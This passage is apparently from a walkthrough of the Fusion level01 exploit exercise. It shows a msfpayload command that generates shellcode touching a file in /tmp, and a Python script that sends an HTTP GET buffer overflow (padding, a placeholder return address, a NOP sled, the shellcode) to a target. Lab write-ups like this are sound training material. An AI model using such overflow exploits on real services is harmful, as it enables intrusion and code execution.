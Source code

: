 ```
     type="int", help="Target port")

    (options, args) = parser.parse_args()

    exploit(options.hostname, options.portnum)
```

Now to start out, let's generate some new shellcode, to touch a file in /tmp: 

```
fusion@fusion:/opt/metasploit-framework$ ./msfpayload linux/x86/exec CMD="touch /tmp/level01" C
/*
* linux/x86/exec - 54 bytes
* http://www.metasploit.com
* VERBOSE=false, PrependSetresuid=false,
* PrependSetreuid=false, PrependSetuid=false,
* PrependChrootBreak=false, AppendExit=false, CMD=touch
* /tmp/level01
*/
unsigned char buf[] =
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x13\x00\x00\x00\x74"
"\x6f\x75\x63\x68\x20\x2f\x74\x6d\x70\x2f\x6c\x65\x76\x65\x6c"
"\x30\x31\x00\x57\x53\x89\xe1\xcd\x80";
```

Now to debug, let's change the return address to 0xDEADBEEF to generate an error, since we no longer know where the buffer will be.  I also removed the "/" after the "GET", as well as the "\n" after the "HTTP/1.1" since they're really just junk getting in the way.  Additionally, since the buffer isn't being printed to the screen, the "recv(1024)" code needed to be removed so the program didn't wait for it. 

Now, our codebase looks like this: 

```
# Fusion Level 01
# http://exploit-exercises.com/fusion/level01
# Matt Andreko
# twitter: @mandreko
# contact: matt [at] mattandreko.com

from sys import exit
from struct import pack
from optparse import OptionParser
from socket import *

def exploit(hostname, port):
        junk = "A"*139
        ret = pack("&lt;I", 0xDEADBEEF)
        nops = "\x90"*100
        shellcode = ("\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x13\x00\x00\x00\x74"
"\x6f\x75\x63\x68\x20\x2f\x74\x6d\x70\x2f\x6c\x65\x76\x65\x6c"
"\x30\x31\x00\x57\x53\x89\xe1\xcd\x80")

        s = socket(AF_INET, SOCK_STREAM)
        try:
                print "[*] Connecting to %s on port %s" % (hostname, port)
                s.connect((hostname, port))
        except:
                print "[*] Connection error"
                exit(1)

        s.send("GET " + junk + ret + " HTTP/1.1" + nops + shellcode)


```